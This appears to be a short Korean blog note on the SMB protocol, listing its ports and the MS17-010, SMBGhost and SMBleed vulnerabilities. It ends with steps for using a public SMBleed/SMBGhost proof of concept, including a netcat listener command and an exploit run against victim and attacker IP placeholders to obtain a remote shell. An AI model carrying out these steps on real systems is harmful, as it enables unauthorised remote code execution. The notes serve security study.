 ```yaml
---
title: SMB
date: 2023-05-01 00:53:00 +0900
categories: [Windows]
tags: [Windows] 
---
```


**SMB란**
포트번호 : 137(UDP), 138(UDP), 139(TCP), 445(TCP)
적용 대상 : Windows Server 2008 ~
SMB(Servr Message Block)
2017년도 SMB 원격코드실행 취약점(MS17-010)을 악용한 랜섬웨어 : WannaCry
CVE-2020-1206, SMBleed. SMBGhost오 연계적으로 익스플로잇 됐을 때 원격 코드 실행 공격을 허용. SMBGhost는 CVE-2020-0796
SMBleed, SMBGhost는 모두 SMB3.1.1버전의 압축 원리에서 발생(SMB가 특정 요청을 처리할 때 발동)
SMBleed : win10, winser2004 모두 발견됐으나 패치 완료. 다만 SMB v3 압축 기능 비활성화 하면 위험도가 낮아질 수 있음 


**SMBleed**
POC : https://github.com/ZecOps/CVE-2020-0796-RCE-POC
1. calc_target_offsets.bat 실행하여 대상 Windows 버전의 오프셋 결정
2. 기본 오프셋을 bat의 출력으로 바꿔 SMBleedingGhost.py 수정
3. netcat 실행 :: nc -lvnp [attacker_port]
4. SMBleedingGhost.py [victim_ip] [attacker_ip] [attacker_port]

